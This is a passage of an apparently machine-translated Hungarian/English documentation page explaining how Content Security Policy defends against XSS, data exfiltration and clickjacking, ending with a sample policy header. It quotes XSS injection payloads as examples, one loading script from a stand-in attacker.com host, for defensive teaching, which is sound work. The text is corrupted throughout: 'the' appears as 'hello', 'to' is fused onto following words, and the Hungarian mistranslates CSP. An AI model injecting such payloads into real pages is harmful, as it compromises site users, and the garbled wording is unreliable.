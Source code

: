 | <span data-ttu-id="b56af-153">**Lépések**</span><span class="sxs-lookup"><span data-stu-id="b56af-153">**Steps**</span></span> | <p><span data-ttu-id="b56af-154">Tartalom biztonsági házirend (CSP) egy egy védelmi jellegű biztonsági mechanizmus, egy szabványos, W3C, amely lehetővé teszi, hogy a webes alkalmazás tulajdonosok toohave vezérlő a helyükön lévő beágyazott hello a tartalomhoz.</span><span class="sxs-lookup"><span data-stu-id="b56af-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="b56af-155">Kriptográfiai Szolgáltató egy HTTP-válaszfejléc hello webkiszolgálón meg van adva, és kikényszeríti a hello ügyféloldali böngészőkben.</span><span class="sxs-lookup"><span data-stu-id="b56af-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="b56af-156">Egy engedélyezési lista-alapú házirend - webhely deklarálhatnak mely aktív tartalom a megbízható tartományok készlete, például JavaScript tölthetők be.</span><span class="sxs-lookup"><span data-stu-id="b56af-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="b56af-157">Kriptográfiai szolgáltató a következő biztonsági szempontból előnyökkel járhat hello:</span><span class="sxs-lookup"><span data-stu-id="b56af-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="b56af-158">**Védelmet biztosít a lehetővé:** Ha egy lap sebezhető tooXSS, egy támadó kihasználhatja azt 2 módon:</span><span class="sxs-lookup"><span data-stu-id="b56af-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="b56af-159">Szúrjon `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="b56af-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="b56af-160">A biztonsági rés nem fog működni a korlátozás-1-miatt tooCSP tartozó alapja</span><span class="sxs-lookup"><span data-stu-id="b56af-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="b56af-161">Szúrjon `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="b56af-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="b56af-162">A biztonsági rés nem fog működni, mert hello általa tartomány nem lesz a felhőbeli Szolgáltató engedélyezett tartományok</span><span class="sxs-lookup"><span data-stu-id="b56af-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="b56af-163">**Adatok exfiltration szabályozhatják:** bármilyen weblap rosszindulatú tartalmat próbál tooconnect tooan külső webhely és eltulajdonít adatokat, ha hello kapcsolat megszakította CSP-hez.</span><span class="sxs-lookup"><span data-stu-id="b56af-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="b56af-164">Ennek az az oka hello céltartomány nem lesz a felhőbeli Szolgáltató engedélyezési lista</span><span class="sxs-lookup"><span data-stu-id="b56af-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="b56af-165">**Kattintson az-emelési elleni védelmet:** kattintson-emelési egy támadási módszer használatával, amely egy ellenfél is keret eredeti webhely és a felhasználók tooclick kényszerítése a felhasználói felületi elemei.</span><span class="sxs-lookup"><span data-stu-id="b56af-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="b56af-166">Jelenleg kattintson-emelési elleni védelmet egy fejléc-X-keret-válaszbeállítások beállításával valósul meg.</span><span class="sxs-lookup"><span data-stu-id="b56af-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="b56af-167">Nem minden böngésző, figyelembe vegyék ezt a fejlécet, és előre CSP fog a szokásos módon toodefend kattintson-emelési ellen</span><span class="sxs-lookup"><span data-stu-id="b56af-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="b56af-168">**Valós idejű támadás reporting:** injektálási támadást egy CSP-kompatibilis webhelyen van, ha böngészők automatikusan vált egy értesítési tooan végpont hello webkiszolgáló konfigurálva.</span><span class="sxs-lookup"><span data-stu-id="b56af-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="b56af-169">Ezzel a módszerrel CSP valós idejű figyelmeztető rendszer funkcionál.</span><span class="sxs-lookup"><span data-stu-id="b56af-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="b56af-170">Példa</span><span class="sxs-lookup"><span data-stu-id="b56af-170">Example</span></span>
<span data-ttu-id="b56af-171">Példa házirend:</span><span class="sxs-lookup"><span data-stu-id="b56af-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```
